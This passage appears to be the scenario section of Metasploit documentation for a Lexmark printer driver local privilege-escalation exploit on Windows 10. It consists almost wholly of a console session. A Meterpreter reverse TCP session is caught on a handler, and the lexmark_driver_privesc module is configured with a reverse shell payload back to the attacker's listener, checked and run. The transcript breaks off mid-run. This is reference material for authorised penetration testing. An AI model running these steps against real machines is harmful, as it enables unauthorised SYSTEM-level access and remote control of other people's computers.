 ## Scenarios

### Lexmark Printer Software G2 XL v2.2.0.0

```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf exploit(multi/handler) > set lport 1270
lport => 1270
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.9:1270
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:51814) at 2021-08-10 18:07:31 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.9
lhost => 10.0.0.9
msf exploit(windows/local/lexmark_driver_privesc) > set lport 1271
lport => 1271
msf exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Printer Software G2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf exploit(windows/local/lexmark_driver_privesc) > set DRIVERNAME Lexmark Printer Software G2 XL
DRIVERNAME => Lexmark Printer Software G2 XL
msf exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.9:1271
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem3.inf
[*] Lexmark driver published at oem12.inf
[*] Found 2 possible options:
[*] 	Lexmark Printer Software G2
[*] 	Lexmark Printer Software G2 XL
[*] The user selected driver was in the driver store
```